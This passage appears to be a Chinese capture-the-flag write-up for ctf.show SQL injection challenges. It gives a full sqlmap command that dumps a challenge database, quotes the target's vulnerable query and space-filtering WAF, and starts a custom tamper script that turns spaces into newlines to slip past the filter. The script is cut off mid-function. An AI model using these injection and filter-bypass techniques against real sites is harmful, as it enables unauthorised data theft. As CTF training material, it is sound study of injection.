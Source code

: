 过滤大小写空格，所以直接上题tamper就可以。

```python
python2 sqlmap.py -u "http://9ebc2f80-ebe8-4ac2-8b2c-0283b6fce95b.chall.ctf.show/api/index.php" --method=PUT --data="id=1" --referer=ctf.show --headers="Content-Type:text/plain" --safe-url="http://9ebc2f80-ebe8-4ac2-8b2c-0283b6fce95b.chall.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web --dump  --tamper=space2comment --batch
```

## web209~tamper绕过 =

> 查询语句
>
> ```
> //拼接sql语句查找指定ID用户
> $sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 0,1;";
>       
> ```
>
> 返回逻辑
>
> ```
> //对传入的参数进行了过滤
>   function waf($str){
>    //TODO 未完工
>    return preg_match('/ |\*|\=/', $str);
>   }
>       
> ```

过滤空格，* ，=  .

还是自己学写 tamper 脚本吧，

[教程点这里](https://blog.csdn.net/whatday/article/details/62059263)

```python
#!/usr/bin/env python

from lib.core.compat import xrange
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW


def tamper(payload, **kwargs):
    payload = space2comment(payload)
    return payload


def space2comment(payload):
    retVal = payload
    if payload:
        retVal = ""
        quote, doublequote, firstspace = False, False, False

        for i in xrange(len(payload)):
            if not firstspace:
                if payload[i].isspace():
                    firstspace = True
                    retVal += chr(0x0a)
                    continue

            elif payload[i] == '\'':
                quote = not quote

```